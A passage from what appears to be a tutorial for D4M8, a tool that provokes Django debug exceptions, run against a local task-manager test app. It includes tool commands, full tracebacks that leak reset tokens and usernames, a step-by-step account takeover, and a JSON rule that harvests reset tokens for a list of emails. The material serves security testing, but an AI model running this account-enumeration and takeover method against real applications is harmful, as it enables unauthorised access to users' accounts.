                     self: [<Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>]
                   fields: [<django.db.models.fields.related.ForeignKey: project>, <django.db.models.fields.related.ForeignKey: user>]
                      ops: <django.db.backends.sqlite3.operations.DatabaseOperations object at 0x7fa37710bfd0>
                    batch: [<Project_users_assigned: Project_users_assigned object>]
               batch_size: 499
                     objs: [<Project_users_assigned: Project_users_assigned object>]
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/models/manager.py
             Function: manager_method
         Line trigger: 127   return getattr(self.get_queryset(), name)(*args, **kwargs)

                  ◎  vars 

                     self: <django.db.models.manager.Manager object at 0x7fa377578f70>
                     args: ([<Project_users_assigned: Project_users_assigned object>],)
                   kwargs: {'fields': [<django.db.models.fields.related.ForeignKey: project>,            <django.db.models.fields.related.ForeignKey: user>], 'using': 'default'}
                     name: '_insert'
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/models/query.py
             Function: _insert
         Line trigger: 920   return query.get_compiler(using=using).execute_sql(return_id)

                  ◎  vars 

                     self: [<Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>]
                     objs: [<Project_users_assigned: Project_users_assigned object>]
                   fields: [<django.db.models.fields.related.ForeignKey: project>, <django.db.models.fields.related.ForeignKey: user>]
                return_id: False
                      raw: False
                    using: 'default'
                    query: <django.db.models.sql.subqueries.InsertQuery object at 0x7fa35ef9ea60>
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/models/sql/compiler.py
             Function: execute_sql
         Line trigger: 974   cursor.execute(sql, params)

                  ◎  vars 

                     self: <django.db.models.sql.compiler.SQLInsertCompiler object at 0x7fa35ef9e130>
                return_id: False
                   cursor: <django.db.backends.utils.CursorDebugWrapper object at 0x7fa35ef9ec10>
                      sql: ('INSERT INTO "taskManager_project_users_assigned" ("project_id", "user_id") ' 'SELECT %s AS "project_id", %s AS "user_id"')
                   params: (32, None)
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/backends/utils.py
             Function: execute
         Line trigger: 79   return super(CursorDebugWrapper, self).execute(sql, params)

                  ◎  vars 

                     self: <django.db.backends.utils.CursorDebugWrapper object at 0x7fa35ef9ec10>
                      sql: ('QUERY = \'INSERT INTO "taskManager_project_users_assigned" ("project_id", ' '"user_id") SELECT %s AS "project_id", %s AS "user_id"\' - PARAMS = (32, ' 'None)')
                   params: (32, None)
                    start: 1749853543.4822485
                     stop: 1749853543.4823608
                 duration: 0.00011229515075683594
                __class__: <class 'django.db.backends.utils.CursorDebugWrapper'>
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/backends/utils.py
             Function: execute
         Line trigger: 64   return self.cursor.execute(sql, params)

                  ◎  vars 

                     self: <django.db.backends.utils.CursorDebugWrapper object at 0x7fa35ef9ec10>
                      sql: ('INSERT INTO "taskManager_project_users_assigned" ("project_id", "user_id") ' 'SELECT %s AS "project_id", %s AS "user_id"')
                   params: (32, None)
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/utils.py
             Function: __exit__
         Line trigger: 97   six.reraise(dj_exc_type, dj_exc_value, traceback)

                  ◎  vars 

                     self: <django.db.utils.DatabaseErrorWrapper object at 0x7fa3771f3220>
                 exc_type: <class 'sqlite3.IntegrityError'>
                exc_value: IntegrityError('NOT NULL constraint failed: taskManager_project_users_assigned.user_id')
                traceback: <traceback object at 0x7fa3771daf00>
              dj_exc_type: <class 'django.db.utils.IntegrityError'>
              db_exc_type: <class 'sqlite3.IntegrityError'>
             dj_exc_value: IntegrityError('NOT NULL constraint failed: taskManager_project_users_assigned.user_id')
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/utils/six.py
             Function: reraise
         Line trigger: 658   raise value.with_traceback(tb)

                  ◎  vars 

                       tp: <class 'django.db.utils.IntegrityError'>
                    value: IntegrityError('NOT NULL constraint failed: taskManager_project_users_assigned.user_id')
                       tb: <traceback object at 0x7fa3771daf00>
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/backends/utils.py
             Function: execute
         Line trigger: 64   return self.cursor.execute(sql, params)

                  ◎  vars 

                     self: <django.db.backends.utils.CursorDebugWrapper object at 0x7fa35ef9ec10>
                      sql: ('INSERT INTO "taskManager_project_users_assigned" ("project_id", "user_id") ' 'SELECT %s AS "project_id", %s AS "user_id"')
                   params: (32, None)
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/backends/sqlite3/base.py
             Function: execute
         Line trigger: 318   return Database.Cursor.execute(self, query, params)

                  ◎  vars 

                     self: <django.db.backends.sqlite3.base.SQLiteCursorWrapper object at 0x7fa35f7c1040>
                    query: ('INSERT INTO "taskManager_project_users_assigned" ("project_id", "user_id") ' 'SELECT ? AS "project_id", ? AS "user_id"')
                   params: (32, None)
          ➤  Trigger 

               Module: /app/taskManager/views.py
             Function: project_create
         Line trigger: 339   project.users_assigned = [request.user.id]

                  ◎  vars 

                    title: False
                     text: False
         project_priority: 0
                      now: datetime.datetime(2025, 6, 13, 22, 25, 43, 438943, tzinfo=<UTC>)
          project_duedate: datetime.datetime(1970, 1, 1, 0, 0, tzinfo=<django.utils.timezone.LocalTimezone object at 0x7fa3774141f0>)
                  project: Error in formatting: TypeError: __str__ returned non-string (type bool)
```

</details>

### Analyzing Exception Significance
Looking at the "Reason" field in exception details helps determine investigation priority. `A violation of a Django database relation occurred` sounds more interesting from an attacker's perspective than an `inappropriate argument value during type conversion.`
Consider this: Why is this triggering a database exception with a `NOT NULL constraint violation` regarding a `user_id` parameter when submitting a form to `http://localhost:8000/taskManager/project_create/` without tampering with any user ID-related fields?

This suggests a potential authentication and authorization problem where:

1. Forms can be submitted that modify database data
2. The application fails to properly attribute actions to authenticated users
3. Unauthenticated requests (user_id == None) can trigger database operations

The SQL query shows:
```Python
sql: ('QUERY = \'INSERT INTO "taskManager_project_users_assigned" ("project_id", ' '"user_id") SELECT %s AS "project_id", %s AS "user_id"\' - PARAMS = (30, ' 'None)')
             
```

We may have identified an authentication and authorization vulnerability:


In practice, that'll be something we'll take some time to evaluate further, but in this case, we're looking for something else. 

### Targeted Testing: Password Reset Functionality

The application uses user email addresses for password reset operations:


We can target this specific functionality:
```python
vimana run d4m8 \
	--target-url http://127.0.0.1:8000 \
	--set-path /taskManager/forgot_password \
	--data '{"email":""}' 
```

#### Empty Email Field Test

Submitting an empty email field produces a `RelatedObjectDoesNotExist` exception:


Following the exception traceback, we can examine variables in the Django application (/app/taskManager/views.py) that reveal important password reset logic and sensitive information:


<details>
<summary>Show full RelatedObjectDoesNotExist Traceback</summary>

```python
[2025-06-16 14:16:20.814035] → Starting D4M8 against 1 inital URL...


 ⮚              Request                       

       Content-Type: application/x-www-form-urlencoded
            Referer: http://127.0.0.1:8000/taskManager/forgot_password/
             Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate, br, zstd
       csrfmiddlewaretoken: None

              email: 

	   <input type="email" name="email" class="form-control">                                             

 ⮘             Response                       

               Date: Mon, 16 Jun 2025 17:16:33 GMT
             Server: WSGIServer/0.2 CPython/3.6.9
       Content-Type: text/html
    X-Frame-Options: SAMEORIGIN

    RelatedObjectDoesNotExist 

             Reason: None
           Category: None
     Request Method: POST
        Request URL: http://127.0.0.1:8000/taskManager/forgot_password/
     Django Version: 1.8.3
    Exception Value: ['User has no userprofile.']
 Exception Location: /app/venv/lib/python3.6/site-packages/django/db/models/fields/related.py in __get__, line 470
  Python Executable: /app/venv/bin/python
     Python Version: 3.6.9
        Python Path: ['/app\n /app/venv/lib/python36.zip\n /app/venv/lib/python3.6\n /app/venv/lib/python3.6/lib-dynload\n /usr/lib/python3.6\n /app/venv/lib/python3.6/site-packages']
        Server time: Mon, 16 Jun 2025 17:16:33 +0000

          ➤  Trigger 

               Module: /app/venv/lib/python3.6/site-packages/django/core/handlers/base.py
             Function: get_response
         Line trigger: 132   response = wrapped_callback(request, *callback_args, **callback_kwargs)

                  ◎  vars 

         wrapped_callback: <function forgot_password at 0x7f0adb37a9d8>
          callback_kwargs: {}
            callback_args: ()
                 callback: <function forgot_password at 0x7f0adb37a9d8>
           resolver_match: ResolverMatch(func=taskManager.views.forgot_password, args=(), kwargs={}, url_name=forgot_password, app_name=None, namespaces=['taskManager'])
        middleware_method: <bound method CsrfViewMiddleware.process_view of <django.middleware.csrf.CsrfViewMiddleware object at 0x7f0adb3ca3c8>>
                 response: None
                 resolver: <RegexURLResolver 'taskManager.urls' (None:None) ^/>
                  urlconf: 'taskManager.urls'
                     self: <django.core.handlers.wsgi.WSGIHandler object at 0x7f0add275da0>
          ➤  Trigger 

               Module: /app/venv/lib/python3.6/site-packages/django/views/decorators/csrf.py
             Function: wrapped_view
         Line trigger: 58   return view_func(*args, **kwargs)

                  ◎  vars 

                   kwargs: {}
                     args: (<WSGIRequest: POST '/taskManager/forgot_password/'>,)
                view_func: <function forgot_password at 0x7f0adb37a950>
          ➤  Trigger 

               Module: /app/venv/lib/python3.6/site-packages/django/db/models/fields/related.py
             Function: __get__
         Line trigger: 470   self.related.get_accessor_name()

                  ◎  vars 

                 rh_field: <django.db.models.fields.AutoField: id>
                 lh_field: <django.db.models.fields.related.OneToOneField: user>
                   params: {'user__id': 8}
               related_pk: 8
                  rel_obj: None
            instance_type: <class 'django.contrib.auth.models.User'>
                 instance: <User: belchior>
                     self: <django.db.models.fields.related.SingleRelatedObjectDescriptor object at 0x7f0adcb79588>
          ➤  Trigger 

               Module: /app/taskManager/views.py
             Function: forgot_password
         Line trigger: 795   reset_user.userprofile.reset_token = reset_token

                  ◎  vars 

              reset_token: '132222'
                        x: 27
                     nums: [132, 222, 2, 241, 127, 27]
                      res: '132222224112727'
               reset_user: <User: belchior>
                  t_email: ''

────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
 ➤ Endpoints missing csrftokenmiddleware:

   These endpoints are associated with data-modifying actions
   performed through web forms in a Django application. Despite
   not implementing Django's csrftokenmiddleware, they are
   vulnerable to CSRF attacks.

            Date: Mon, 16 Jun 2025 17:16:33 GMT
          Server: WSGIServer/0.2 CPython/3.6.9
    Content-Type: text/html
 X-Frame-Options: SAMEORIGIN
  Django Version: 1.8.3
  Python Version: 3.6.9
          Target: http://127.0.0.1:8000

         status: 200
            url: http://127.0.0.1:8000/taskManager/forgot_password/
           form:
	   <input type="email" name="email" class="form-control">

      

```
</details>

We've successfully leaked interesting information about user accounts, including a reset token and username, while submitting a form with an empty email field. However, this appears to be test data since there's no email associated with the leaked information.

#### Valid Email Field Test

Now let's test with a valid email address from a previously registered user `ags1@mtx.com`:

```python
vimana run d4m8 \
	--target-url http://127.0.0.1:8000 \
	--set-path /taskManager/forgot_password \
	--data '{"email":"ags1@mtx.com"}' 
```

This generates a `ConnectionRefusedError`:


In the diagram below, you can see why a `ConnectionRefusedError` in this context can be handy:


Following the `ConnectionRefusedError` traceback we can see these trigger's vars below, specifically related to the django application's views module:


A `ConnectionRefusedError` exception in this context indicates that the application attempted to send an email through an SMTP server but failed to connect. This confirms that:

1. The email address exists in the system
2. The password reset process was initiated
3. The application tried to send a reset email

Now we have everything needed to change the user's password:

* reset_token: '206112'
* reset_user: neois0ver
* t_email: ags1@mtx.com

Exploiting the Information Leak
Starting with just an email address, we've obtained:

1. The corresponding username (required for authentication)
2. A valid reset token
3. Confirmation that the account exists

Login Page:


#### Testing the Reset Token:

Testing if the reset token is valid by changing the neois0ver user password, for the sake of practicality, we're using the token as password

If no error is returned, we successfully changed the neois0ver password, let's check it by authenticating with that credential:

#### Authenticating with Compromised Credentials:


This successfully authenticates us as the compromised user.

### Targeted Testing: Password Reset Functionality

Manually analyzing multiple emails becomes challenging when testing many accounts. D4M8 supports rules to automate this process for multiple emails or any form field in the target application.

### Creating Automation Rules

Considering the leaked variables in the application's views:
```Python

          ➤  Trigger 

               Module: /app/taskManager/views.py
             Function: forgot_password
         Line trigger: 802   "You can reset your password at /taskManager/reset_password/. Use \"{}\" as your token. This link will only work for 10 minutes.".format(reset_token))

                  ◎  vars 

              reset_token: '206112'
                        x: 226
                     nums: [206, 112, 138, 51, 16, 226]
                      res: '2061121385116226'
               reset_user: <User: neois0ver>
                  t_email: 'ags1@mtx.com'

```


We can create automation rules with these requirements:
* Path: `/taskManager/forgot_password/`
* Method: `POST`
* Target Exception: `ConnectionRefusedError`
* Target Module: `/app/taskManager/views.py`
* Target Function: `forgot_password`
* Variables:
  - `reset_token`
  - `reset_user`
  - `t_email`
    
### Rule Configuration

And finally, we can create a rule like this `siddhis/d4m8/rules/ConnectionRefusedError_AccountsDump.json`:
```json
{
    "FUZZER_SETTINGS": {
	"silent": true
    },
    "REQUEST": {
        "request_method": "POST",
        "request_urls": [
	    "http://127.0.0.1:8000/taskManager/forgot_password/"
	],
        "form_target_input_data": {
	    "email": "/tmp/d4m8_test_emails.txt"
	},
        "use_post_data": false,
        "use_request_file": false
    },
    "RESPONSE": {
        "target_exception_types": [
	    "ConnectionRefusedError"
	],
        "target_modules": [
	    "views.py"
	],
        "target_module_functions": [
	    "forgot_password",
	    "recover_password"
	]
    },
    "ACTIONS":[
        {
            "action_type": "extract_function_vars",
	    "function_vars": {
                "reset_user":"<User:\\s*(.*?)>",
                "t_email":false,
                "reset_token":false,
		"res":false
	    }
        }		
    ],
    "OUTPUT":  {
    	"format": "table"
    }
}


```

Here you can see the list of emails gathered in `/tmp/d4m8_test_emails.txt`:
```
ags1@mtx.com
cosmicrain@hotmail.com
jimlovespam@thedoors.com
jh1942@guitarheroes.com
visi02@gmaill.com
gsam@kafka.esc
ramalhesbusiness@protonmail.com
```

### Executing the Rule-Based Scan

Now we need to scan using this rule (saved in `siddhis/d4m8/rules/`) using --scan-rules:


The command runs in silent mode (as specified in the rule), processing all email addresses and extracting the required information.
```Python
vimana ruin d4m8 --scan-rules
```


Now you have all the usernames and reset tokens for the tested email addresses.

## Conclusion

This demonstrates a straightforward use case for D4M8, showing how exception profiling can reveal sensitive information and security vulnerabilities in Django web applications. The tool's ability to systematically trigger and analyze exceptions provides valuable insights into application behavior and potential attack vectors.
The key advantages of D4M8 include:

* Systematic Discovery: Automatically identifies and tests form endpoints
* Exception Analysis: Extracts meaningful information from error conditions
* Rule-Based Automation: Scales testing across multiple targets
* Information Correlation: Maps relationships between user inputs and system responses
* Security Assessment: Identifies authentication, authorization, and information disclosure vulnerabilities
